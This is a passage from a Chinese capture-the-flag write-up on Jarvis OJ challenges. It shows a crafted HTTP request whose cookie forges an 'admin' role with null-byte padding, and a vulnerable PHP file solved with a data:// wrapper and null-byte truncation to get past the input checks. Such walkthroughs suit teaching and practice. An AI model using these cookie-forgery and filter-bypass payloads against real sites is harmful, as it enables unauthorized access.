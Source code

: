 ```
GET / HTTP/1.1
Host: web.jarvisoj.com:32778
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: role=s%3A5%3A%22admin%22%3B%00%00%00%00%00%00%00%C0%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80s%3A5%3A%22guest%22%3B; hsh=fcdc3840332555511c4e4323f6decb07
Connection: keep-alive
Upgrade-Insecure-Requests: 1

```
![aa.png][9]




---------
0x07 RE? 300
--

发现是udf.so 然后导入mysql中 
help_me看了一下函数功能 
然后得到了flag

---------
0x08 IN A Mess 500
--
index.phps
```
<?php

error_reporting(0);
echo "<!--index.phps-->";

if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}


?>
```
随便输入一个不是数字绕过id；data伪协议绕过stripos；00截断eregi。
然后返回一个路径ï»¿Come ON!!! {/^HT2mCpcvOLf}

  [1]: http://www.tuicool.com/articles/zEfuEz
  [2]: https://img.scanfsec.com/img/2016122082157378.png
  [3]: https://img.scanfsec.com/img/2016123993631644.png
  [4]: https://img.scanfsec.com/img/2016123187191897.png
  [5]: https://img.scanfsec.com/img/2016123272738253.png
  [6]: https://img.scanfsec.com/img/2016122761767173.png
  [7]: https://img.scanfsec.com/img/2016121231310862.png
  [8]: https://img.scanfsec.com/img/201612887644193.png
  [9]: https://img.scanfsec.com/img/201612259069001.png
  [10]: https://img.scanfsec.com/img/2016122467216741.png